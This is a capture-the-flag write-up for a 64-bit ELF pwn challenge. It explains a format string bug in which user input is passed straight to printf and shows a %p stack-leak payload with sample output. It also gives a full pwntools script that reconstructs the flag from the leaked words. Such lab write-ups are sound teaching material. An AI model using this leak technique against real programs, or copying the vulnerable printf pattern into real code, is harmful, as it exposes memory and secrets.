






# 📌 Challenge Name : **Chall**

## 📁 Challenge Info



- **Category**: Pwn  
- **Binary**: 64-bit ELF  
- **Protections**: PIE enabled  
- **Vulnerability**: Format String  
- **Goal**: Leak the flag from memory using a format string vulnerability

---

## 🔍 Analysis

Running `strings` on the binary revealed fragments of the flag:

```

flag{SomH
e\_345y\_FH
345y\_ForH
ma71ng}

````



This suggests the flag is loaded in memory but never printed directly.

The binary hints:

> "You can access the hidden flag now, use a format string vulnerability!"

---

## 🧨 Vulnerability





The binary uses user-controlled input as the format string in a `printf()` call:

```c
char buf[100];
fgets(buf, sizeof(buf), stdin);
printf(buf);  // ❌ Vulnerable to format string attacks!
````

This lets us read memory by injecting format specifiers like `%p`, `%x`, etc.

---



## 🧪 Exploitation Process

We craft a payload to print stack values:

```
AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
```

Sample output:

```
AAAA.0x... .0x... .0x6d6f537b67616c66 .0x465f793534335f65 .0x676e3137616d726f .0x7d ...
```

The flag is split across 4 stack entries in reverse byte order (due to little-endian).

---

## 🐍 Exploit Script

```python
from pwn import *

p = process('./chall.unknown')
sleep(0.2)

payload = b'AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p'
p.sendline(payload)

output = p.recv(timeout=2).decode(errors='ignore')
print("[*] Raw output:\n", output)

try:
    leaked = output.split('AAAA.')[1].split('.')
    flag_bytes = b''.join(p64(int(val, 16)) for val in leaked[7:11])
    flag = flag_bytes.decode('latin-1', errors='ignore')
    flag = flag[:flag.index('}') + 1]
    print(f"[+] Flag found: {flag}")
except Exception as e:
    print(f"[-] Failed to parse flag: {e}")
```



---

## 🏁 Flag

```
flag{Some_345y_Forma71ng}
```

---


## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*

